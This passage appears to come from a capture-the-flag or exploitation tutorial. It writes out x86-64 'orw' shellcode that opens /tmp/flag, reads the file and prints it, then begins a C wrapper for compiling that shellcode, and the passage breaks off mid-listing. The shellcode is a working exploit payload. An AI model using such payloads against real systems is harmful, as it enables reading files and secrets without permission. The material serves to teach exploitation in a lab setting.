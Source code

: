Putting everything together, the complete orw shellcode would be:

```x86asm
;Name: orw.S

push 0x67
mov rax, 0x616c662f706d742f 
push rax      ; rsp will point to the top of the stack
mov rdi, rsp  ; rdi = "/tmp/flag"
xor rsi, rsi  ; rsi = 0 ; RD_ONLY
xor rdx, rdx  ; rdx = 0
mov rax, 2    ; rax = 2 ; syscall_open
syscall       ; open("/tmp/flag", RD_ONLY, NULL)

mov rdi, rax  ; rdi = fd (user opened-file)
mov rsi, rsp
sub rsi, 0x30 ; rsi = rsp-0x30 ; buf
mov rdx, 0x30 ; rdx = 0x30     ; len
mov rax, 0x0  ; rax = 0        ; syscall_read
syscall       ; read(fd, buf, 0x30)

mov rdi, 1    ; rdi = 1 ; fd = stdout
mov rax, 0x1  ; rax = 1 ; syscall_write
syscall       ; write(fd, buf, 0x30)
```

#### Note: File Descriptor

A file descriptor is an identifier in the form of a number that the operating system uses to manage **open files**.

- **0**: stdin
- **1**: stdout
- **2**: stderr
- **3 and above**: user-opened files, sockets, pipes, and other I/O resources

#### Compiling orw Shellcode

We have to compile `orw.S` assembly code into an `ELF` file so that it can be run on a linux system.

```c
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "push 0x67\n"
    "mov rax, 0x616c662f706d742f \n"
    "push rax\n"
    "mov rdi, rsp    # rdi = '/tmp/flag'\n"
    "xor rsi, rsi    # rsi = 0 ; RD_ONLY\n"
    "xor rdx, rdx    # rdx = 0\n"
    "mov rax, 2      # rax = 2 ; syscall_open\n"
    "syscall         # open('/tmp/flag', RD_ONLY, NULL)\n"
    "\n"
    "mov rdi, rax    # rdi = fd\n"
    "mov rsi, rsp\n"
    "sub rsi, 0x30   # rsi = rsp-0x30 ; buf\n"
    "mov rdx, 0x30   # rdx = 0x30     ; len\n"
    "mov rax, 0x0    # rax = 0        ; syscall_read\n"
    "syscall         # read(fd, buf, 0x30)\n"
    "\n"
    "mov rdi, 1      # rdi = 1 ; fd = stdout\n"
```